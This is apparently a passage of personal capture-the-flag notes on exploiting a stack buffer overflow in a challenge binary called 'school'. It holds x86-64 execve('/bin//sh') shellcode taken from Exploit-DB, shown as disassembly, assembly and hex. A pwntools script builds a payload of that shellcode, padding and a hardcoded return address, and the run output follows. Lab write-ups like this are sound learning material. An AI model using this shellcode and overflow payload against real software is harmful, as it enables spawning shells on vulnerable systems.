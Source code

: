 
There's this from Exploit DB](https://www.exploit-db.com/exploits/46907), but that feels like cheating
```
0:  48 31 f6                xor    rsi,rsi  
3:  56                      push   rsi  
4:  48 bf 2f 62 69 6e 2f    movabs rdi,0x68732f2f6e69622f  
b:  2f 73 68  
e:  57                      push   rdi  
f:  54                      push   rsp  
10: 5f                      pop    rdi  
11: 6a 3b                   push   0x3b  
13: 58                      pop    rax  
14: 99                      cdq  
15: 0f 05                   syscall
```



We gonna see if that worked
Assembly:
```
xor rsi,rsi
push rsi
mov rdi,0x68732f2f6e69622f
push rdi
push rsp
pop rdi
push 0x3b
pop rax
cdq
syscall
```
Hex:
```
4831F65648BF2F62696E2F2F736857545F6A3B58990F05
\x48\x31\xF6\x56\x48\xBF\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x57\x54\x5F\x6A\x3B\x58\x99\x0F\x05
```
Used [Defusee Online x86 Assembler](https://defuse.ca/online-x86-assembler.htm#disassembly)

Did this fucking do it?!?!?!?!?

```python
def smallPld():
	code = b'\x48\x31\xF6\x56\x48\xBF\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x57\x54\x5F\x6A\x3B\x58\x99\x0F\x05'
	p = 40 - len(code)
	pad = b'A'*p
	addr = p64(0x7fffffffddb0)
	return code + pad + addr
	

def testPld():
	p =  process('/bin/bash')
	p.sendline('gdb ./school -q')
	p.sendline("break *0x7fffffffddb0")
	#p = process('./school')
	p.sendline("r")
	p.recvuntil("directions:")
	p.sendline(smallPld())
	p.interactive()
```
###### Results:
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 School_Pwn1.py
[*] Switching to interactive mode
Hi, H1\xf6VH\xbf/bin//shWT_j;X\x99\x0f\x05AAAAAAAAAAAAAAAAA\xb0\xdd\xff\xff\xff\x7f
```